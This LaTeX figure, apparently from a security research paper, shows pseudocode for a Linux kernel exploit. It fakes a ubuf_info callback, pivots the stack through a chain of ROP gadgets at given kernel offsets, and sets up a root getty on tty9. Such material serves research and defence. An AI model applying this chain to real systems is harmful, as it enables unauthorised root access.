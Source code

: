 \begin{figure*}
                \begin{lstlisting}[
        basicstyle = \scriptsize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
KERNEL_BASE := 0xffffffff81000000; // patch using leaked pointers
ATTACK_PAGE := 0xffff880043430000; // arbitrary selected address

// Fake ubuf_info structure, starting with the callback pointer.
// This is the entry point of the attack.
page[0x000] = KERNEL_BASE + 0x6b511d; // call qword ptr[rdi + 0x3b0]

// pivoting code
page[0x3B0] = KERNEL_BASE + 0x1091fd; // mov rax, qword ptr [rdi + 0x68] ;
                                            // mov rbp, rsp ; call qword ptr [rax]
page[0x068] = &ATTACK_PAGE[0x100];
page[0x100] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x138] = &ATTACK_PAGE[0x200];
page[0x228] = KERNEL_BASE + 0x16fab6;   // mov rbx, qword ptr [rax + 8] ;
                                            // mov rdi, rax ; call qword ptr [rax]
page[0x208] = &ATTACK_PAGE[0x210];
page[0x210] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0x200] = KERNEL_BASE + 0x2499c1; // mov rax, qword ptr [rax + 0x38] ;
                                            // call qword ptr [rax + 0x28]
page[0x238] = &ATTACK_PAGE[0x300];
page[0x328] = KERNEL_BASE + 0x2ccb61; // mov rcx, qword ptr[rax + 8] ;
                                            // mov rdi, rax; call qword ptr[rax]
page[0x308] = &ATTACK_PAGE[0x310];
page[0x310] = KERNEL_BASE + 0x159c86; // pop rsp ; ret
page[0x300] = KERNEL_BASE + 0x20fb7b; // mov rax, qword ptr[rax + 0x30] ;
                                            // mov r8, qword ptr[rax + 0x40] ;
                                            // call qword ptr[rbx]

page[0x330] = &ATTACK_PAGE[0xF68]; // our new stack :)

// ``/sbin/getty -aroot tty9''
page[0x400] = 0x65672f6e6962732f;
page[0x408] = 0x6f72612d20797474;
page[0x410] = 0x003979747420746f;

// helping pointers
page[0x500] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0x508] = KERNEL_BASE + 0x12dacd; // pop rdi; ret


\end{lstlisting}
\end{figure*}
